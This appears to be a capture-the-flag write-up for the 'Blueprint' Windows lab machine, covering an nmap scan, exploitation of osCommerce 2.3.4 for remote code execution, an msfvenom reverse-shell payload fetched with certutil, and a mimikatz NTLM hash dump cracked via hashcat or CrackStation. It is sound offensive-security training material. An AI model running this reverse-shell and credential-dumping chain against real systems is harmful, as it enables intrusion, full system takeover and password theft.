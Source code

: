 # Blueprint

This one is a windows box with minimal hints.

## Port scan

```nmap
PORT      STATE    SERVICE      REASON          VERSION
80/tcp    open     http         syn-ack ttl 125 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: 404 - File or directory not found.
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open     msrpc        syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open     netbios-ssn  syn-ack ttl 125 Microsoft Windows netbios-ssn
443/tcp   open     ssl/http     syn-ack ttl 125 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
| SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
445/tcp   open     microsoft-ds syn-ack ttl 125 Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open     mysql        syn-ack ttl 125 MariaDB (unauthorized)
5172/tcp  filtered pcoip-mgmt   no-response
7974/tcp  filtered unknown      no-response
8080/tcp  open     http         syn-ack ttl 125 Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| http-methods: 
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
21620/tcp filtered unknown      no-response
32396/tcp filtered unknown      no-response
38683/tcp filtered unknown      no-response
46207/tcp filtered unknown      no-response
49152/tcp open     msrpc        syn-ack ttl 125 Microsoft Windows RPC
49153/tcp open     msrpc        syn-ack ttl 125 Microsoft Windows RPC
49154/tcp open     msrpc        syn-ack ttl 125 Microsoft Windows RPC
49158/tcp open     msrpc        syn-ack ttl 125 Microsoft Windows RPC
49159/tcp open     msrpc        syn-ack ttl 125 Microsoft Windows RPC
49160/tcp open     msrpc        syn-ack ttl 125 Microsoft Windows RPC
52621/tcp filtered unknown      no-response
Aggressive OS guesses: Microsoft Server 2008 R2 SP1 (96%), Microsoft Windows 7 or 8.1 R1 (93%)

```

I went against what I normally do and headed for the webserver first. It's running some CMS I haven't heard of before `osCommerce Online Merchang v2.3.4`. The version is leaked in the webapp's URL.

I was able to find a few exploits for this using searchsploit, I chose to test the most recent RCE exploit `50128.py`

This exploit was failing out of the box because the webserver is using a self-signed cert...I just added `verify=False` to the parameter list of each `request.*()` call to bypass this. The exploit gives me an incomplete root RCE shell. I quickly jumped over to a reverse tcp shell which I generated using msfvenom.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<myIP> LPORT=4444 -f exe -o shell.exe
```

Then I used `certutil` to download the reverse shell and executed it. I now have a much more stable shell as `nt authority\system`.

I was able to read the root.txt file and install and run mimikatz to dump the NTLM hashes for cracking.

Trying to crack with hashcat

```bash
hashcat -m 1000 -a 3 hash.txt
```

As I sit here reviewing scans of other boxes and listening to my computer, obviously pissed about the heavy load hashcat is putting on it....I remember using something to just lookup the hashes online in the past. A quick google brought me back to [CrackStation](https://crackstation.net/). I was able to paste the hash and quickly look it up.
